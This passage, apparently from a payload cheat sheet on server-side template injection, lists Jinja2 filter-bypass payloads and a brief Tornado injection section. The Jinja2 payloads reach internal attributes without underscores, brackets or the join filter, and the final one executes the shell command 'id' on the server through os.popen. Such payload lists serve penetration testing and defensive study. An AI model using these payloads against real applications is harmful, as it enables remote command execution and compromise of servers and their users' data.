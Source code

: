 ### Jinja2 - Filter Bypass

```python
request.__class__
request["__class__"]
```

Bypassing `_`

```python
http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

Bypassing `[` and `]`

```python
http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
or
http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

Bypassing `|join`

```python
http://localhost:5000/?exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

Bypassing most common filters ('.','_','|join','[',']','mro' and 'base') by <https://twitter.com/SecGus>:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

---

## Tornado

### Tornado - Basic Injection

```py
{{7*7}}
{{7*'7'}}
```
